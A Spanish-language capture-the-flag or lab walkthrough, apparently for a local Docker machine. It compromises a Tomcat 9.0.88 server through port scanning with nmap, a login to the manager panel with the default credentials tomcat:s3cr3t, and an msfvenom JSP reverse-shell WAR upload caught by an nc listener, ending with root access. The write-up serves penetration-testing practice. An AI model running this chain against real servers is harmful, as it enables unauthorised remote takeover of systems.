


Comenzamos escaneando con nmap los puertos abiertos de la máquina objetivo.

``sudo nmap 172.17.0.2 -sS -p- --open --min-rate 5000 -n -Pn``

Vale, tenemos el p8080 abierto. Vamos a realizar otro escaneo sobre este puerto para ver qué servicio y versión está corriendo.

``nmap 172.17.0.2 -sCV -p8080``

Vemos que existe un Tomcat 9.0.88. Vamos a echarle un vistazo a nivel de navegador.

Tenemos la página default de tomcat. Si husmeamos un poco, no vemos nada interesante.

Vamos a intentar loguearnos con credenciales básicas/default en la ruta predeterminada del panel de login de tomcat: ``/manager/html``.

Gracias a este recurso de hacktricks podemos ver diferentes combinaciones de credenciales default.

https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html?highlight=tomcat%20creds#default-credentials

Accedemos a ``/manager/html`` y se prueban las diferentes combinaciones propuestas.

La combinación ``tomcat``:``s3cr3t`` funciona.

Estamos dentro del panel de administración. Si scrolleamos un poco, vemos que podemos subir un fichero con extensión ``.war``:

Vamos a preparar una revshell con ``msfvenom``:

``msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=8080 -f war -o rev.war``

Una vez la tenemos, la subimos:

Nos aparece en el apartado Applications:

Levantamos listener en el puerto previamente especificado en el comando de ``msfvenom`` (8080).

``nc -nvlp 8080``

Accedemos a nuestra revshell a través de navegador y acto seguido revisamos nuestro listener:

Somos root en máquina víctima.
